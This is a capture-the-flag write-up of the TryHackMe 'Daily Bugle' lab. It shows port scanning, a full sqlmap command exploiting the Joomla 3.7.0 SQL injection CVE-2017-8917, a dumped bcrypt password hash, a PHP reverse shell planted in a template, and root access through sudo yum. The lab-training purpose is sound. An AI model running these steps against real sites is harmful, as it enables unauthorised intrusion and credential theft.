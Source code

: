 # THM Daily Bugle

## Description
Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

The website being hacked. Help me recover it. 


## Reconnaise.
```
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)
```
**Open port 3306**
Why is port 3306 vulnerable?
MySQL port - 3306 is used by MySQL server to listen requests from clients. Allowing inbound traffic from all external IP addresses to MySQL is vulnerable to DoS, Buffer Overflow, SQL Injection attacks.

![image](https://hackmd.io/_uploads/S1sGk7NsT.png)

`CMS -- JOOMLA 3.7.0`

Potential user
`Username : Super User`


## Scanning and Enumeration
### Website
Early scanning to /robots.txt show all the directory list below.
```
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Further scanning using Joomscan, manage to identify version that leads to Initial Access.
```
/administrator/

[++] Joomla 3.7.0
"CVE-2017-8917 SQL injection Vulnerability in Joomla! 3.7.0"

http://10.10.124.154/administrator/components
http://10.10.124.154/administrator/modules
http://10.10.124.154/administrator/templates
http://10.10.124.154/images/banners




```

Using exploit from this github https://github.com/stefanlucas/Exploit-Joomla

### CVE-2017-8917 
SQL injection Vulnerability in Joomla! 3.7.0.

```
URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

The vulnerable happen when **com_field** borrow some parameter from the admin side components.


## Credential Dump
Result from proof of concept.
```
'811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
```
The hash that being use are bcrypt. Crack using JTR and HashCat. 
![image](https://hackmd.io/_uploads/SkMltmEj6.png)



## Initial Access
Manage to get credential for Super User. Let put payload in one of template.
![image](https://hackmd.io/_uploads/B1SkrXEsp.png)
Upload php revershell in template > index.php
Refresh index page. and we got connection.

## User 
Login as **apache** user, the major hint to look in web configuration file, apache log.

![image](https://hackmd.io/_uploads/Hyd5v74iT.png)
It might contains user password.Manage to get user flag from here. 


## PrivEsca
Using sudo -l to check user privilege. It can access root without password for /usr/share/bin/yum.

```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Moving to gtfobin yum and Follow all the step 
Mange to get root. 
![image](https://hackmd.io/_uploads/BymwdQViT.png)
    


## Learning
Explaination on vulnerbilities Joomla 3.7.0
Create Vuln docker with Joomla 3.7.0 (password are flag)
Create privesc docker with yum.

